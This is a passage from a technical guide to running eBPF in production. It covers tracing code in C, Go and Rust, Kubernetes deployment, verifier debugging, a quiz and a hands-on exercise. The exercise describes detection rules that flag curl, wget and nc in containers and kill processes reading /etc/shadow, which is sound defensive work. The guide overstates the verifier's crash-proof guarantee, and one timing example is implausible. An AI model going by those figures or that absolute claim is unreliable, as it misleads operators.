    e = bpf_ringbuf_reserve(&events, sizeof(*e), 0);
    if (!e) return 0;

    e->pid = bpf_get_current_pid_tgid() >> 32;
    e->uid = bpf_get_current_uid_gid();
    bpf_get_current_comm(&e->comm, sizeof(e->comm));

    // CO-RE: read filename using BTF (works across kernel versions)
    unsigned fname_off = ctx->__data_loc_filename & 0xFFFF;
    bpf_probe_read_str(&e->filename, sizeof(e->filename),
                       (void *)ctx + fname_off);

    bpf_ringbuf_submit(e, 0);
    return 0;
}

char LICENSE[] SEC("license") = "GPL";
```

```c
// my_tool.c — User-space program
#include <stdio.h>
#include <bpf/libbpf.h>
#include <bpf/bpf.h>
#include "my_tool.skel.h"  // Auto-generated skeleton
#include "my_tool.h"

static int handle_event(void *ctx, void *data, size_t data_sz) {
    struct event *e = data;
    printf("PID: %d  UID: %d  COMM: %s  FILE: %s\n",
           e->pid, e->uid, e->comm, e->filename);
    return 0;
}

int main() {
    struct my_tool_bpf *skel;
    struct ring_buffer *rb;

    // Open, load, and attach BPF program
    skel = my_tool_bpf__open_and_load();
    if (!skel) { fprintf(stderr, "Failed to load\n"); return 1; }

    my_tool_bpf__attach(skel);

    // Set up ring buffer polling
    rb = ring_buffer__new(bpf_map__fd(skel->maps.events),
                          handle_event, NULL, NULL);

    while (1) {
        ring_buffer__poll(rb, 100 /* timeout ms */);
    }

    ring_buffer__free(rb);
    my_tool_bpf__destroy(skel);
    return 0;
}
```

### Go eBPF with cilium/ebpf

For Go projects, the `cilium/ebpf` library is the standard:

```go
package main

import (
    "fmt"
    "log"
    "os"
    "os/signal"

    "github.com/cilium/ebpf"
    "github.com/cilium/ebpf/link"
    "github.com/cilium/ebpf/ringbuf"
    "github.com/cilium/ebpf/rlimit"
)

//go:generate go run github.com/cilium/ebpf/cmd/bpf2go -target amd64 tracer ./bpf/tracer.bpf.c

func main() {
    // Remove memlock limit for eBPF
    if err := rlimit.RemoveMemlock(); err != nil {
        log.Fatal(err)
    }

    // Load compiled eBPF objects
    objs := tracerObjects{}
    if err := loadTracerObjects(&objs, nil); err != nil {
        log.Fatalf("loading objects: %v", err)
    }
    defer objs.Close()

    // Attach to tracepoint
    tp, err := link.Tracepoint("sched", "sched_process_exec",
                                objs.HandleExec, nil)
    if err != nil {
        log.Fatalf("attaching tracepoint: %v", err)
    }
    defer tp.Close()

    // Read events from ring buffer
    rd, err := ringbuf.NewReader(objs.Events)
    if err != nil {
        log.Fatalf("opening ringbuf reader: %v", err)
    }
    defer rd.Close()

    sig := make(chan os.Signal, 1)
    signal.Notify(sig, os.Interrupt)

    go func() {
        <-sig
        rd.Close()
    }()

    for {
        record, err := rd.Read()
        if err != nil {
            return
        }
        fmt.Printf("Event: %v\n", record.RawSample)
    }
}
```

### Rust eBPF with Aya

```rust
// Aya is the modern Rust eBPF library
// Cargo.toml dependencies:
// aya = "0.12"
// aya-log = "0.2"
// tokio = { version = "1", features = ["full"] }

use aya::programs::TracePoint;
use aya::maps::RingBuf;
use aya::Bpf;
use std::convert::TryInto;

#[tokio::main]
async fn main() -> Result<(), anyhow::Error> {
    let mut bpf = Bpf::load_file("target/bpfel-unknown-none/release/my-probe")?;

    let program: &mut TracePoint = bpf
        .program_mut("handle_exec")
        .unwrap()
        .try_into()?;
    program.load()?;
    program.attach("sched", "sched_process_exec")?;

    let mut ring_buf = RingBuf::try_from(bpf.map_mut("events").unwrap())?;

    loop {
        if let Some(item) = ring_buf.next() {
            println!("Event: {:?}", item);
        }
        tokio::time::sleep(std::time::Duration::from_millis(10)).await;
    }
}
```

---

## Production Deployment Patterns

### Pattern 1: eBPF as DaemonSet

Most eBPF tools deploy as Kubernetes DaemonSets — one pod per node running the eBPF programs.

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: my-ebpf-agent
  namespace: monitoring
spec:
  selector:
    matchLabels:
      app: my-ebpf-agent
  template:
    metadata:
      labels:
        app: my-ebpf-agent
    spec:
      hostPID: true
      hostNetwork: true
      tolerations:
        - operator: Exists  # Run on all nodes including control plane
      containers:
        - name: agent
          image: my-org/ebpf-agent:v1.0
          securityContext:
            capabilities:
              add: [SYS_ADMIN, BPF, PERFMON, NET_ADMIN]
              drop: [ALL]
          resources:
            requests:
              cpu: 100m
              memory: 128Mi
            limits:
              cpu: 500m
              memory: 512Mi
          volumeMounts:
            - name: bpf
              mountPath: /sys/fs/bpf
            - name: debugfs
              mountPath: /sys/kernel/debug
      volumes:
        - name: bpf
          hostPath:
            path: /sys/fs/bpf
        - name: debugfs
          hostPath:
            path: /sys/kernel/debug
```

### Pattern 2: Sidecar-Free Service Mesh

Cilium provides service mesh functionality (mTLS, traffic management, L7 policy) without sidecar proxies. This is a significant operational advantage:

```
Traditional service mesh (Istio/Linkerd):
  Each pod → sidecar Envoy proxy → adds latency, memory, CPU
  1000 pods = 1000 sidecars = 500GB+ memory overhead

Cilium service mesh:
  Per-node eBPF programs → shared Envoy instance per node (for L7 only)
  1000 pods across 50 nodes = 50 shared Envoy instances
  L3/L4 policies enforced entirely in eBPF (no proxy needed)
```

### Pattern 3: Layered Security Stack

```
Layer 1: Admission Control (before pods run)
  → OPA/Gatekeeper, Kyverno — policy-as-code

Layer 2: Runtime Detection (while pods run)
  → Falco — detect anomalous behavior, alert

Layer 3: Runtime Enforcement (while pods run)
  → Tetragon — block dangerous operations in real time

Layer 4: Network Policy (pod-to-pod communication)
  → Cilium — identity-based network policies, L7 filtering
```

---

## Debugging eBPF Programs

### Common Verifier Errors

```bash
# "R0 invalid mem access" — forgot to check bounds
# Fix: Always check pointer + size before dereferencing
if ((void *)(ip + 1) > data_end)
    return XDP_PASS;

# "back-edge from insn X to Y" — loop detected
# Fix: eBPF bounded loops require #pragma unroll or BPF_LOOP (kernel 5.17+)
bpf_loop(256, callback_fn, &ctx, 0);  // bounded loop

# "program too large" — exceeded instruction limit
# Current limit: 1 million instructions (was 4096 before kernel 5.2)
# Fix: Split into tail calls or simplify logic

# "unreachable insn" — dead code
# Fix: Remove unreachable code paths

# "invalid access to map value" — map value used without null check
__u64 *val = bpf_map_lookup_elem(&my_map, &key);
if (!val) return 0;  // MUST check for NULL
```

### Debugging Tools

```bash
# View loaded eBPF programs
bpftool prog list
# Output: ID  Type           Name        Tag     Loaded At
# 42  xdp            xdp_ddos    a1b2c3d4  2026-04-01T10:00:00+0000

# Dump eBPF program instructions
bpftool prog dump xlated id 42

# View eBPF maps
bpftool map list
bpftool map dump id 15  # dump map contents

# View verifier log (when loading fails)
# In libbpf: set LIBBPF_LOG_LEVEL=debug
export LIBBPF_STRICT_OPTS=all

# Trace eBPF program execution (for debugging)
bpftool prog tracelog

# Check eBPF-related kernel stats
cat /proc/sys/kernel/bpf_stats_enabled
echo 1 > /proc/sys/kernel/bpf_stats_enabled  # enable stats
bpftool prog list  # now shows run_time_ns and run_cnt
```

### Performance Profiling of eBPF Programs

```bash
# Enable BPF program stats
echo 1 > /proc/sys/kernel/bpf_stats_enabled

# Check how long eBPF programs take to execute
bpftool prog list
# ID  Type    Name            run_time_ns  run_cnt
# 42  xdp     xdp_ddos        1234567890   9876543210
# Average: 1234567890 / 9876543210 = ~0.125 ns per run (excellent)

# If average exceeds 1-10us, your eBPF program is too slow for the hot path.
# For XDP: aim for <100ns per packet
# For kprobes on hot paths: aim for <1us per invocation
```

---

## When NOT to Use eBPF

- **Kernel version is below 5.4**: CO-RE, ring buffers, bounded loops, and most useful features require kernel 5.8+. If you are stuck on older kernels, consider kernel modules or user-space alternatives.

- **You need Windows or macOS support**: eBPF is Linux-only. Microsoft has eBPF for Windows (ebpf-for-windows) but it is experimental. macOS has no eBPF support.

- **The problem has a simpler solution**: If you need basic network policies, standard Kubernetes NetworkPolicy resources work fine without Cilium. If you need basic observability, OpenTelemetry SDK instrumentation may be simpler than eBPF-based auto-instrumentation.

- **Your team cannot maintain it**: Custom eBPF programs require kernel expertise. If nobody on your team understands kernel data structures, verifier constraints, and BTF, use higher-level tools (Cilium, Falco) rather than writing custom eBPF.

- **Compliance requires audited kernel interfaces**: Some compliance regimes (FedRAMP, PCI-DSS) have specific requirements around kernel modifications. eBPF programs modify kernel behavior, and your compliance team needs to understand and approve this. Pre-built, CNCF-graduated tools (Cilium, Falco) are easier to justify than custom eBPF.

- **You are not on Linux**: Containers on Docker Desktop (macOS/Windows) run in a Linux VM that may have an old kernel without BTF. Test on production-equivalent kernels.

---

::: tip Key Takeaway
- eBPF has moved from experimental to default infrastructure: Cilium is the default CNI on GKE and AKS, Falco is the standard for runtime security, and eBPF-based observability (Hubble, Pixie, Parca) provides zero-instrumentation visibility.
- For most teams, the right move is adopting **eBPF-based tools** (Cilium, Falco, Tetragon, Parca) rather than writing custom eBPF programs. The ecosystem is mature enough that you rarely need to write C.
- XDP for DDoS mitigation and Cilium for kube-proxy replacement deliver measurable, significant performance improvements over iptables-based alternatives — this is not theoretical, it is 5-10x faster at scale.
:::

::: warning Common Misconceptions

**"eBPF is only for kernel hackers."**
False. Most eBPF adoption today is through tools like Cilium, Falco, and Parca. You use eBPF without writing eBPF, just as you use TCP without writing kernel networking code. Writing custom eBPF is for specialized use cases.

**"eBPF programs can crash the kernel."**
False. The verifier guarantees that eBPF programs cannot crash, hang, or corrupt kernel memory. Every program is verified before execution. If the verifier rejects it, it never runs. This is the fundamental safety guarantee that makes eBPF different from kernel modules.

**"eBPF adds significant overhead to production systems."**
Depends on the attach point. XDP programs add less than 100 nanoseconds per packet. Tracepoint programs on cold paths add unmeasurable overhead. kprobes on hot paths (called millions of times per second) can add noticeable overhead — always benchmark. Tools like Cilium and Falco are designed for negligible production overhead.

**"Cilium replaces the need for a service mesh."**
Partially true. Cilium handles L3/L4 policy, mTLS (via WireGuard), and basic L7 policy without sidecars. But for advanced L7 features (circuit breaking, complex traffic shifting, header manipulation), Cilium's Envoy integration or a full service mesh may still be needed.

**"eBPF-based observability replaces OpenTelemetry."**
No. eBPF gives you network-level and system-level observability without instrumentation. OpenTelemetry gives you application-level observability (business metrics, custom spans, correlated traces). They are complementary — eBPF catches what you forgot to instrument, OTel captures what only your application knows.

**"All eBPF tools require privileged containers."**
On kernels 5.8+, the `CAP_BPF` and `CAP_PERFMON` capabilities replace the need for `SYS_ADMIN`. This is a narrower privilege set. Additionally, some tools (Cilium) run as the CNI at the node level, not as a container sidecar, so the privilege model is different.
:::

---

::: tip In Production

**Google (GKE Dataplane V2)** runs Cilium as the default CNI for all GKE clusters, handling networking, network policy enforcement, and observability for one of the largest Kubernetes deployments in the world.

**Cloudflare** uses XDP eBPF programs on every edge server to mitigate DDoS attacks exceeding 100 Tbps aggregate capacity. Packets are dropped at the NIC driver level before consuming any kernel resources.

**Meta (Facebook)** runs Katran, an XDP-based L4 load balancer, as the entry point for all external traffic. It also uses eBPF extensively for host-level network monitoring and performance analysis across millions of servers.

**Datadog** ships an eBPF-based agent that captures network flows, DNS queries, and TCP metrics without any application instrumentation. Their continuous profiler uses eBPF perf events for language-agnostic CPU profiling.

**Capital One** uses Cilium + Tetragon for runtime security enforcement in their Kubernetes clusters, combining identity-based network policies with syscall-level security monitoring.

**Palantir** deploys Falco across all production Kubernetes clusters for runtime threat detection, feeding alerts into their security operations center for real-time incident response.
:::

---

::: details Quiz

**1. What is the key architectural difference between Falco and Tetragon?**

Falco is a detection-only tool — it observes system calls via eBPF and generates alerts when rules match, but it cannot prevent the action. Tetragon can both detect and enforce — it can SIGKILL processes, override syscall return values, and block operations in real time using eBPF. Falco alerts after the fact; Tetragon can prevent the action from completing.

---

**2. Why is Cilium's kube-proxy replacement significantly faster than iptables-based kube-proxy?**

iptables performs linear chain traversal — O(n) matching against every rule for every packet. With thousands of Kubernetes services, this means thousands of rule evaluations per packet. Cilium uses eBPF hash maps for service lookup — O(1) regardless of the number of services. Additionally, eBPF programs are JIT-compiled to native code, while iptables rules are interpreted.

---

**3. What makes XDP suitable for DDoS mitigation that regular iptables cannot match?**

XDP runs at the network driver level, before the kernel allocates an sk_buff (socket buffer) for the packet. This means attack packets are dropped without consuming any kernel memory or CPU beyond the XDP program itself. iptables runs after sk_buff allocation and full network stack processing, consuming significantly more resources per dropped packet. XDP can process 10-20 million packets per second per core.

---

**4. Why does Pixie store data in-cluster instead of sending it to a cloud service?**

Pixie captures full request/response bodies (HTTP payloads, SQL queries, etc.) using eBPF. Sending this data to an external service would mean transmitting potentially sensitive application data outside the cluster boundary. By storing data in node-local memory with short-term retention (6-24 hours), Pixie avoids data exfiltration concerns and makes it acceptable for security-sensitive environments.

---

**5. What is CO-RE and why did it change eBPF deployment?**

CO-RE (Compile Once, Run Everywhere) uses BTF (BPF Type Format) to make eBPF programs portable across kernel versions. Before CO-RE, eBPF programs compiled with BCC required LLVM/Clang and kernel headers on every target machine (compilation happened at load time). With CO-RE, programs compile once against BTF type information and libbpf adjusts struct field offsets at load time to match the running kernel. This eliminated the need for build tools on production servers and enabled shipping eBPF programs as single binaries.
:::

---

::: details Exercise

**Build a Kubernetes Security Monitoring Stack with eBPF**

Set up a complete eBPF-based security and observability stack on a Kubernetes cluster:

1. **Deploy Cilium as the CNI** with kube-proxy replacement and Hubble enabled
2. **Write a CiliumNetworkPolicy** that allows your frontend pods to reach the API service only on port 8080 with HTTP GET/POST, and blocks all other traffic
3. **Deploy Falco** with a custom rule that detects when any container runs `curl`, `wget`, or `nc` (netcat) — common indicators of container escape attempts
4. **Deploy Tetragon** with a TracingPolicy that kills any process attempting to read `/etc/shadow` inside a container
5. **Use Hubble CLI** to observe the traffic flow between your frontend and API, including any dropped packets from your network policy
6. **Run bpftrace** on a cluster node to monitor TCP retransmits and identify which pods have flaky network connections
7. **Deploy Parca** for continuous CPU profiling and generate a flame graph comparing CPU usage before and after a simulated load test

**Verification checklist:**
- [ ] `cilium status` shows all nodes healthy
- [ ] `cilium connectivity test` passes
- [ ] `hubble observe --verdict DROPPED` shows blocked traffic from unauthorized pods
- [ ] Falco alerts fire when you `kubectl exec` into a pod and run `curl`
- [ ] Tetragon kills a process that tries to read `/etc/shadow` in a container
- [ ] Parca UI shows flame graphs for all cluster workloads
:::

---

**One-Liner Summary**: eBPF in production means deploying battle-tested tools — Cilium for networking, Falco/Tetragon for security, Hubble/Pixie for observability, Parca for profiling — rather than writing custom kernel code, giving you deep infrastructure visibility and enforcement without application changes.

*Last updated: 2026-04-04*
